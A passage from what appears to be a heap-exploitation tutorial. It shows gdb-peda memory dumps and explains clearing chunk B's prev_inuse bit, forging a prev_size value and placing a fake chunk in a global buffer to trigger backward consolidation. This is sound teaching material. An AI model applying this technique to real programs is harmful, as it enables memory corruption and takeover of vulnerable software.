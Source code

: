 0x8858120:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858130:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858140:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858150:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858160:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858170:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858180:	0x00000000	0x00000000	0x00000000	0x00000000
{% endhighlight %}

And here is what it looks like after:

{% highlight bash %}
gdb-peda$ x/100xw 0x8858008-8
0x8858000:	0x00000000	0x00000089	0x41414141	0x41414141
0x8858010:	0x41414141	0x41414141	0x41414141	0x41414141
0x8858020:	0x41414141	0x41414141	0x41414141	0x41414141
0x8858030:	0x41414141	0x41414141	0x41414141	0x41414141
0x8858040:	0x41414141	0x41414141	0x41414141	0x41414141
0x8858050:	0x41414141	0x41414141	0x41414141	0x41414141
0x8858060:	0x41414141	0x41414141	0x41414141	0x41414141
0x8858070:	0x41414141	0x41414141	0x41414141	0x41414141
0x8858080:	0x41414141	0x41414141	0x0080dfd8	0x00000088
0x8858090:	0x0000000a	0x00000000	0x00000000	0x00000000
0x88580a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x88580b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x88580c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x88580d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x88580e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x88580f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858100:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858110:	0x00000000	0x00000089	0x00000000	0x00000000
0x8858120:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858130:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858140:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858150:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858160:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858170:	0x00000000	0x00000000	0x00000000	0x00000000
0x8858180:	0x00000000	0x00000000	0x00000000	0x00000000
{% endhighlight %}

Notice how we've changed chunk B's `cur_size` field from `0x89` to `0x88`, in order to flip the `prev_inuse` bit off.
Besides that bit, we still need to preserve the original size field of that chunk, as this size is also used to check whether or not the bordering next chunk is free.

Also note that we have overwritten the `prev_size` field with `0x80dfd8`, using the calculation mentioned before.

In our `tmp` global buffer, we've set up our fake chunk as follows.
 
{% highlight bash %}
gdb-peda$ x/64xw 0x804a060
0x804a060 <tmp>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070 <tmp+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080 <tmp+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090 <tmp+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0 <tmp+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0 <tmp+80>:	0x00000000	0x00000000	0x0804a0b0	0x0804a0b0
0x804a0c0 <tmp+96>:	0x0000000a	0x00000000	0x00000000	0x00000000
0x804a0d0 <tmp+112>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e0 <ptrs>:	0x08858008	0x08858090	0x08858118	0x00000000
0x804a0f0 <ptrs+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a100 <ptrs+32>:	0x00000000	0x00000000	0x00000000	0x00000000
{% endhighlight %}
